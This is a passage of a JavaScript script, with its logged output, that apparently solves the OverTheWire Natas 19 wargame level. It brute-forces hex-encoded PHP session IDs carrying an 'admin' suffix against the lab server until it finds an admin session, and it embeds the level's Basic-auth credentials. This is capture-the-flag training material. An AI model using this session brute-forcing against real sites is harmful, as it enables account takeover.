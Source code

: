 ```javascript
        x += ch[i];
    }
    return x;
}

async function req(ch) {
    const headers = {
        'Authorization': 'Basic bmF0YXMxOTo0SXdJcmVrY3VabEE5T3NqT2tvVXR3VTZsaG9rQ1BZcw==',
        'Cookie': `PHPSESSID=${gen(ch)}2d61646d696e`
    }
    const res = await axios.post(`http://natas19.natas.labs.overthewire.org/index.php?debug=1`, `username=admin&password=`, {headers, withCredentials: true});
    console.log(`For try #${ch}`);
    if(res.data.includes('regular')) {
        // console.log(res.data);
        return false;
    } else {
        console.log(res.data);
        return true;
    }
}

async function calc() {
    for(let i=1; i<=640; i++) {
        let val = await req(i);
        if(val) {
            break;
        }
    }
    console.log('fin');
}

calc();

app.listen(port, () => console.log(`Example app listening at http://localhost:${port}`));

// Outputs:
// Example app listening at http://localhost:3000
// For try #1
// For try #2
// For try #3
// For try #4
// For try #5
// For try #6
// For try #7
// For try #8
// For try #9
// For try #10
// For try #11
// For try #12
// For try #13
// For try #14
// For try #15
// For try #16
// For try #17
// For try #18
// For try #19
// For try #20
// For try #21
// For try #22
// For try #23
// For try #24
// For try #25
```